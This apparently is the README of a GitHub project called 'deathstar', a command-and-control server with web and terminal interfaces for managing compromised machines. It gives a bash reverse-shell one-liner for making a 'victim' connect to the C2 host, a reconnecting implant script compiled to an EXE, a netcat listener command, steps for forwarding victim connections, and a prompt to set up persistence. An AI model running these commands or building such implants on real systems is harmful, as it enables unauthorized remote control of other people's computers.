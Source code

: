 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

OR 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

- This will drop the moment the C2 server 'drops'
`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

OR

- This will continue to connect to the C2 server even after it 'drops'
`./stardestroyer.py &`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

OR

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

